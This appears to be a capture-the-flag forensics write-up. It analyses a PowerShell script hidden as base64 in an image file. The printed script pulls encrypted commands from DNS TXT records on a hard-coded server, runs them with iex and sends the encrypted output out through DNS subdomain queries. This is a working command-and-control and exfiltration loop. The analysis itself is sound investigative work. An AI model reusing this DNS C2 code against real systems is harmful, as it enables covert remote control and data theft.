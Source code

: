 ```shell  
$out = Resolve-DnsName -type TXT -DnsOnly windowsliveupdater.com -Server 147.182.172.189|Select-Object -Property Strings;  
for ($num = 0 ; $num -le $out.Length-2; $num++){  
$encryptedString = $out[$num].Strings[0]  
$backToPlainText = Decrypt-String $key $encryptedString  
$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32  
Resolve-DnsName -type A -DnsOnly start.windowsliveupdater.com -Server 147.182.172.189  
for ($ans = 0; $ans -lt $pr.length-1; $ans++){  
$domain = -join($pr[$ans],".windowsliveupdater.com")  
Resolve-DnsName -type A -DnsOnly $domain -Server 147.182.172.189  
}  
Resolve-DnsName -type A -DnsOnly end.windowsliveupdater.com -Server 147.182.172.189  
}  
<snip>  
```  
  
presumably the whole file is a script, for the automation. convert with:  
```shell
cat desktop.png | base64 -d > auto.ps1  
```
  
open up auto.ps1 and start analyzing the code.  
  
this part looks interesting, and instead of running it, we want to print it:  
```powershell
#$output = iex $backToPlainText;$pr = Encrypt-String $key $output|parts 32  
$output = write-host $backToPlainText; $pr = Encrypt-String $key $output | parts 32  
```  
  
unfortunately the DNS references in the code doesn't seem to be running so we can't query the DNS to see what type of traffic/responses we're supposed to get.  
  
instead we have to follow the code, see what it does and try to dig out the necessary information from the pcap dump.  
  
 `start.windowsliveupdater.com` seems to get a reply like: 32A806549B03AB7E4EB39771AEDA4A1B.windowsliveupdater.com  
where the length stays the same  throughout the pcap.
 
Testing to see whether the domain actually exists. And it does, but it won't give the same replies as in the pcap. 
```shell
$ dig @8.8.8.8 ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com  
  
; <<>> DiG 9.18.1-1-Debian <<>> @8.8.8.8 ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com  
; (1 server found)  
;; global options: +cmd  
;; Got answer:  
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 42343  
;; flags: qr rd ra; QUERY: 1, ANSWER: 2, AUTHORITY: 0, ADDITIONAL: 1  
  
;; OPT PSEUDOSECTION:  
; EDNS: version: 0, flags:; udp: 512  
;; QUESTION SECTION:  
;ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com. IN A  
  
;; ANSWER SECTION:  
ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com. 300 IN A 188.114.96.5  
ECABC349D27C0B0FFFD1ACEEDBE06BB6.windowsliveupdater.com. 300 IN A 188.114.97.5  
``` 
  